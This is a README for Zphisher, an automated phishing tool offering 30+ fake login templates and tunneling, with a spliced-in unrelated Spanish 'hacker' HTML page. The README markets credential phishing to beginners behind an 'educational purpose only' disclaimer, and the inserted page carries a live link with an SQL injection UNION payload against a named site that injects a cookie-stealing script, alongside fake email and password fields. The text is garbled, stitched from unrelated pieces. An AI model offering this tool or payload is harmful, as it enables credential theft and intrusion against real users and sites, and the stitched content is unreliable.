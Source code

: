 <!-- Zphisher -->

<p align="center">
  <img src=".imgs/logo.png">
</p>

<p align="center">
  <img src="https://img.shields.io/badge/Version-2.2-green?style=for-the-badge">
  <img src="https://img.shields.io/github/license/htr-tech/zphisher?style=for-the-badge">
  <img src="https://img.shields.io/github/stars/htr-tech/zphisher?style=for-the-badge">
  <img src="https://img.shields.io/github/issues/htr-tech/zphisher?color=red&style=for-the-badge">
  <img src="https://img.shields.io/github/forks/htr-tech/zphisher?color=teal&style=for-the-badge">
</p>

<p align="center">
  <img src="https://img.shields.io/badge/Author-HTR--Tech-cyan?style=flat-square">
  <img src="https://img.shields.io/badge/Open%20Source-Yes-cyan?style=flat-square">
  <img src="https://img.shields.io/badge/MADE%20IN-BANGLADESH-green?colorA=%23ff0000&colorB=%23017e40&style=flat-square">
  <img src="https://img.shields.io/badge/Written%20In-Bash-cyan?style=flat-square">
</p>

<p align="center">A beginners friendly, Automated phishing tool with 30+ templates.</p>

##

### Features

- Latest and updated login pages.
- Mask URL support 
- Beginners friendly
- Docker support (checkout `docker-legacy` branch)
- Multiple tunneling options
  - Localhost
  - Ngrok (With or without hotspot)
  - Cloudflared (Alternative of Ngrok)


### Installation

- Just, Clone this repository -
```
$ git clone https://github.com/CryptoXSS/zphisher
```

- Change to cloned directory and run `zphisher.sh` -
```
$ cd zphisher
$ bash zphisher.sh
```

- On first launch, It'll install the dependencies and that's it. `Zphisher` is installed.

### Run on Docker
```
$ docker pull htrtech/zphisher
$ docker run --rm -it htrtech/zphisher
```

### Dependencies

**`Zphisher`** requires following programs to run properly - 
- `php`
- `wget`
- `curl`
- `git`

> All the dependencies will be installed automatically when you run `Zphisher` for the first time.

> Supported Platform : **`Termux`**, **`Ubuntu/Debian/Kali/Parrot`**, **`Arch Linux/Manjaro`**, **`Fedora`**

##---------------------------------------------------------------------------------------------------------------
<! DOCTYPE html>
<html>
<head>
 <title>Uruguay un solo pais!!</title>
  
 <h1 style="color: green;">Error 404 attack bypass DDoS</h1>
 estamos aqui para ayudarte<br>
 no estas solo<br>
 Aqui termina mi carrera como programador :v<br>
         <h1>PRO
                 H
                   4
                     C
                       K
                         3
                           R</h1>
 
<button style="background-color:green; border-color:blue; color:white">Start</button>
<button style="background-color:red; border-color:blue; color:white">Stop</button>
<a href="http://vencedor.coop/productos.php?id=13%20%20AnD%20point(29,9)/*!13337Union*/%20/*!12345Select*/%201,0x43727970746f2048544d4c,0x3c7363726970743e616c65727428646f63756d656e742e636f6f6b6965293b3c2f7363726970743e,4,5--+-+/">SQL Injected successfully</a>
 <br>
 <link rel="stylesheet" href="style.css">
   <link rel="stylesheet" href="style.css">
   <link rel="stylesheet" href="style.css">
   <link rel="stylesheet" href="style.css">
   <p>
   <input type="text" placeholder="Email" style ="color:blue;"/>
   <input type="password"placeholder="Password" style ="color:green;"/>
     <img src="https://github.com/yottaiq/CloudAttack"</img>
     </p>
     <button style="background-color:green; border-color:blue; color:white">Start</button>
     </body>
     </html>
     
<h3 align="center">
:: Workflow ::
</h3>
<p align="center">
<img src=".imgs/wf.gif"/>
</p>

### Special Thanks :

- [**Aditya Shakya**](https://github.com/adi1090x)
- [**1RaY-1**](https://github.com/1RaY-1)
- [**TheLinuxChoice**](https://twitter.com/linux_choice)
- [**DarksecDevelopers**](https://github.com/DarksecDevelopers)
- [**Moises Tapia**](https://github.com/MoisesTapia)


### Find Me on :
<p align="left">
  <a href="https://github.com/htr-tech" target="_blank"><img src="https://img.shields.io/badge/Github-HTR--TECH-green?style=for-the-badge&logo=github"></a>
  <a href="https://www.instagram.com/tahmid.rayat" target="_blank"><img src="https://img.shields.io/badge/IG-%40tahmid.rayat-red?style=for-the-badge&logo=instagram"></a>
  <a href="https://m.me/tahmid.rayat.official" target="_blank"><img src="https://img.shields.io/badge/Chat-Messenger-blue?style=for-the-badge&logo=messenger"></a>
</p>

## Warning
This Tool is made for educational purpose only !

Author will not be responsible for any misuse of this toolkit !
